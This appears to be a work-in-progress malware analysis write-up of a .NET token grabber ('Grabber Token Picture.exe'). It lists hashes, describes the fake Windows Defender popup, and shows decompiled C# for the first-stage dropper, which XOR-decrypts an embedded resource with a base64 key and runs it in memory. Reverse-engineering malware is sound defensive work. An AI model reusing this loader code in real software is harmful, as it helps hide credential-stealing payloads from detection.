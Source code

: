 

# INFINITY V3



Filename: Grabber Token Picture.exe

MD5: 2f6002f3184e2a6d519d10d73b7cddb0
SHA1: 7a4f1bf78aeb70db14ea034cc08d914d47d45e08
SHA256: 9a2d5e0a5d3aca815f209ee87c86434335a1b7fb76f6ccc4206b58cbcdb2259e

https://www.malshare.com/sample.php?action=detail&hash=9a2d5e0a5d3aca815f209ee87c86434335a1b7fb76f6ccc4206b58cbcdb2259e

**Info**

*This isn't completely reversed as I've hit a few blocks on the road. Count this still as a work in progress.* 

### Behavior

This is only the behavior that is being seen on the screen. When opening a popup show up with "Windows Defender has **detected, a** Virus/Malware. The **virus as been** removed". The popup looks like a legit popup and would fool a lot of people. Do notice the spelling mistake within the popup. The comma between `detected`,  `a` and `virus as been`

### Checking with Detect It Easy

According to the tool DIE the file is a .NET executable. While still using the tool another interesting thing to look at is the entropy of the executable. Check the malware entropy level and you can quickly discover whether the executable is packed or encrypted. This doesn't mean that a file with a high entropy level is always malicious. The Entropy of our file has a 7.9 in the .text section. So we're possibly dealing with a dropper. 

[DIE] https://github.com/horsicq/Detect-It-Easy
[Entropy] https://en.wikipedia.org/wiki/Entropy_(computing)

### Stage 1 - Dropper

Opening the executable with dnSpy, the original file is called flowers and the function to main is called Loader. Main is unpacking a file from the `exitcollection` resource called `flashinsane.dat`. It's xorring  6144 bytes with key in base64. Then it's loading and executing without writing it to disk. 

```c#
private static void Main()
{
	byte[] array = (byte[])Program.GetResource("exitcollection.resources", "flashinsane.dat");
	byte[] array2 = Convert.FromBase64String("8ABrrgp+ThHUZ9FZHVtAwN5nFitGj7g=");
	for (int i = 0; i < array.Length; i++)
	{
		array[i] ^= array2[i % array2.Length];
	}
	Activator.CreateInstance(Assembly.Load(array).GetExportedTypes()[0], new object[] { typeof(Program) });
}
```
